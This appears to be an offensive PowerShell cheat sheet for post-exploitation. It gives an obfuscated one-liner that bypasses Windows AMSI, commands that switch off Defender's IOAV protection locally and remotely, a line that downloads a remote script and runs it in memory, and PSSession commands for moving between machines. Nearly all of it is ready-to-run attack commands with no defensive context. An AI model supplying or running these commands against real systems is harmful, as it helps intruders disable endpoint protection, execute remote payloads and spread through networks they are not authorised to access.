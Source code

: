 ##### AMSI Bypass Obscure
```sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )```

##### AMSI Bypass
Set-MpPreference -DisableIOAVProtection $true

##### AMSI Bypass remotely
Invoke-command - ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session <session>

##### PS Download into memory 
iex (iwr http://<url>/<file>.ps1 -UseBasicParsing)

##### Quickly confirm you have remote access to a machine:
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <Computer Name>

##### Create new PSSession to Computername
$sesh = New-PSSession -ComputerName <ComputerName>

##### Connect to Session by Session
Enter-PSSession -session <session name ie $sesh>

##### Connect to Session by ComputerName
Enter-PSSession -ComputerName <computer>
